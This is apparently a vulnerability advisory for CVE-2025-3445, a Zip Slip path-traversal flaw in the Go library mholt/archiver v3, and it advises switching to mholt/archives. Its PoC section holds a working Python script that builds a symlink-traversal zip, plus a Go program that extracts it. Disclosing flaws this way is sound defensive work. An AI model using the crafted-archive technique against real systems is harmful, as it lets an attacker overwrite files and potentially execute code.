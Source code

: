```yaml
---
description: CVE-2025-3445 High severity. mholt/archiver Zip Slip Path Traversal
title: mholt/archiver Zip Slip Path Traversal
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-3445
cvss: 8.1
severity: high
discovered_by: Ofri Ouzan
type: vulnerability
---
```

## Summary
This vulnerability allows the use of a crafted ZIP file containing path traversal symlinks to create or overwrite files with the privileges of the user or application utilizing the library.



## Component

[github.com/mholt/archiver/v3](https://github.com/mholt/archiver)



## Affected versions

[3.0.0,3.5.1]



## Description

A Zip Slip vulnerability has been identified in mholt/archiver in Go. This vulnerability allows the use of a crafted ZIP file containing path traversal symlinks to create or overwrite files with the privileges of the user or application utilizing the library.

When using the archiver.Unarchive functionality with ZIP files like this:
`archiver.Unarchive(zipFile, outputDir)`

A crafted ZIP file can be extracted in such a way that it writes files to the affected system with the same privileges as the application executing this vulnerable functionality. Consequently, sensitive files may be overwritten, potentially leading to privilege escalation, code execution, and other severe outcomes in some cases.

It is worth noting that a similar vulnerability has been identified in TAR files (CVE-2024-0406), which has yet to be officially fixed.
Also, we have observed the 0.1.0 release of the archives package in which the Unarchive() functionality has been removed from various parts of the project. However, the latest stable release that is currently available in the archiver package (v3.5.1) remains affected by this vulnerability.

## PoC

An example to create a crafted zip file that has symlinks with path traversal:

create_zip.py:
```
import zipfile
import os
import io

def create_zip(zip_path):
    with zipfile.ZipFile(zip_path, 'w') as zip_ref:
        symlink_target = '../../../here'
        symlink_info = zipfile.ZipInfo('./x')
        symlink_info.external_attr = 0o120777 << 16
        zip_ref.writestr(symlink_info, symlink_target)
        regular_file_content = b'Exploited!\n'
        zip_ref.writestr('./x', regular_file_content)

if __name__ == "__main__":
    zip_path = "exploit.zip"
    create_zip(zip_path)
    print(f"Zip file created at {zip_path} with the specific conditions.")
```


An example of a vulnerable application that uses the vulnerable `archiver.Unarchive()` functionality with a provided crafted zip file:

main.go:
```
package main

import (
    "fmt"
    "log"
    "github.com/mholt/archiver/v3"
)

func main() {
    zipFile := "exploit.zip"
    outputDir := "output_directory"
    err := archiver.Unarchive(zipFile, outputDir)
    if err != nil {
        log.Fatalf("Failed to unarchive %s: %v", zipFile, err)
    }
    fmt.Printf("Successfully extracted %s to %s\n", zipFile, outputDir)
}
```



## Vulnerability Mitigations

The https://github.com/mholt/archiver project is deprecated and replaced by the project https://github.com/mholt/archives which is not affected by this issue.
It is recommended to switch to this maintained library if possible.



## References

[Original advisory](https://github.com/mholt/archives/issues/27)